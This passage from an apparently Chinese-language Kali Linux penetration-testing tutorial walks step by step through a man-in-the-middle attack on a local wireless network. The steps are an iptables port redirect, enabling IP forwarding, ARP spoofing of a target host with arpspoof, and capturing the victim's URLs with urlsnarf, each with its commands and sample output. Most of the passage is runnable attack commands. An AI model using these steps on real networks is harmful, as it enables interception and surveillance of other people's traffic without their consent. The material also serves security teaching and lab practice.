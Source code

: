 ```
root@kali:~# iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080 
```

执行以上命令后，没有任何输出。

以上设置成功后，当用户向网关 192.168.6.1 的 80 端口发送请求时，将会被转发为 8080 端口发送到攻击者主机上。

### 9.8.3 捕获并监视无线网络数据

使用中间人攻击的方法，可以使 Kali Linux 操作系统处在目标主机和路由器之间。这样，用户就可以捕获来自目标主机的所有数据。本小节将介绍通过使用 Arpspoof 工具实施中间人攻击，进而捕获并监视无线网络数据。

（1）开启路由器转发功能。执行命令如下所示：

```
root@Kali:~# echo 1 > /proc/sys/net/ipv4/ip_forward 
```

（2）使用 Arpspoof 命令攻击主机。执行命令如下所示：

```
root@kali:~# arpspoof -i eth0 -t 192.168.6.106 192.168.6.1
0:c:29:7a:59:75 0:c:29:fc:a9:25 0806 42: arp reply 192.168.6.1 is-at 0:c:29:7a:59:75
0:c:29:7a:59:75 0:c:29:fc:a9:25 0806 42: arp reply 192.168.6.1 is-at 0:c:29:7a:59:75
0:c:29:7a:59:75 0:c:29:fc:a9:25 0806 42: arp reply 192.168.6.1 is-at 0:c:29:7a:59:75
0:c:29:7a:59:75 0:c:29:fc:a9:25 0806 42: arp reply 192.168.6.1 is-at 0:c:29:7a:59:75
0:c:29:7a:59:75 0:c:29:fc:a9:25 0806 42: arp reply 192.168.6.1 is-at 0:c:29:7a:59:75
0:c:29:7a:59:75 0:c:29:fc:a9:25 0806 42: arp reply 192.168.6.1 is-at 0:c:29:7a:59:75
0:c:29:7a:59:75 0:c:29:fc:a9:25 0806 42: arp reply 192.168.6.1 is-at 0:c:29:7a:59:75
0:c:29:7a:59:75 0:c:29:fc:a9:25 0806 42: arp reply 192.168.6.1 is-at 0:c:29:7a:59:75
0:c:29:7a:59:75 0:c:29:fc:a9:25 0806 42: arp reply 192.168.6.1 is-at 0:c:29:7a:59:75
...... 
```

执行以上命令表示告诉 192.168.6.106（目标主机），网关的 MAC 地址是 00:0c:29:7a:59:75（攻击主机）。当目标主机收到该消息时，将会修改 ARP 缓存表中对应的网关 ARP 条目。执行以上命令后，不会自动停止。如果不需要攻击时，按下 Ctrl+C 组合键停止攻击。

（3）查看目标主机访问 URL 地址的信息。执行命令如下所示：

```
root@kali:~# urlsnarf -i eth0
urlsnarf: listening on eth0 [tcp port 80 or port 8080 or port 3128]
192.168.6.106 - - [16/Jul/2014:13:12:30 +0800] "GET http://192.168\. 6.1:1900/igd.xml HTTP/1.1" - - "-" "Microsoft-Windows/6.1 UPnP/1.0"
192.168.6.106 - - [16/Jul/2014:13:12:30 +0800] "GET http://192.168\. 6.1:1900/l3f.xml HTTP/1.1" - - "-" "Microsoft-Windows/6.1 UPnP/1.0"
192.168.6.106 - - [16/Jul/2014:13:12:30 +0800] "GET http://192.168\. 6.1:1900/ifc.xml HTTP/1.1" - - "-" "Microsoft-Windows/6.1 UPnP/1.0"
192.168.6.106 - - [16/Jul/2014:13:12:33 +0800] "GET http://192.168\. 6.1:1900/ipc.xml HTTP/1.1" - - "-" "Microsoft-Windows/6.1 UPnP/1.0"
192.168.6.106 - - [16/Jul/2014:13:12:37 +0800] "GET http://192.168\. 6.1:1900/igd.xml HTTP/1.1" - - "-" "Microsoft-Windows/6.1 UPnP/1.0"
192.168.6.106 - - [16/Jul/2014:13:12:37 +0800] "POST http://192.168\. 6.1:1900/ipc HTTP/1.1" - - "-" "Microsoft-Windows/6.1 UPnP/1.0"
192.168.6.106 - - [16/Jul/2014:13:12:37 +0800] "POST http://192.168\. 6.1:1900/ifc HTTP/1.1" - - "-" "Microsoft-Windows/6.1 UPnP/1.0"
192.168.6.106 - - [16/Jul/2014:13:12:37 +0800] "POST http://192.168\. 6.1:1900/ipc HTTP/1.1" - - "-" "Microsoft-Windows/6.1 UPnP/1.0"
192.168.6.106 - - [16/Jul/2014:13:12:37 +0800] "POST http://192.168\. 6.1:1900/ifc HTTP/1.1" - - "-" "Microsoft-Windows/6.1 UPnP/1.0" 
```
